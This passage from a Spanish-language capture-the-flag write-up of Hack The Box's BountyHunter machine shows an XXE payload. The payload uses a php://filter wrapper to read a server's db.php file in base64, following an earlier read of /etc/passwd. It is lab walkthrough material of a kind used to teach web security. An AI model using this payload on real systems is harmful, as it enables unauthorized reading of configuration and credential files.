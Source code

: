 ![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BOUNTYHUNTER/images/16.PNG)

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BOUNTYHUNTER/images/17.PNG)

Vemos el contenido del /etc/passwd en que observamos los usuarios del sistema, hay uno que tiene opcion a consola, eso se lo verifica al final de cada usuario, deberia decir /bin/bash y el usuario **development** lo tiene.

Ahora podemos acceder al archivo **db.php** pero como es un archivo en php no nos mostrara el contenido porque la web lo interpreta, lo que podemos hacer es usar un wrapper de PHP que permite mostrar el contenido de archivo .php en base64 y mostrarlo por pantalla, para luego copiar ese contenido a un decoder y verlo en texto plano.

el payload quedaria de la siguiente manera:

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo
  [<!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=db.php" >]>
	<bugreport>
		<title>&xxe;</title>
		<cwe>&xxe;</cwe>
		<cvss>&xxe;</cvss>
		<reward>&xxe;</reward>
	</bugreport>
```
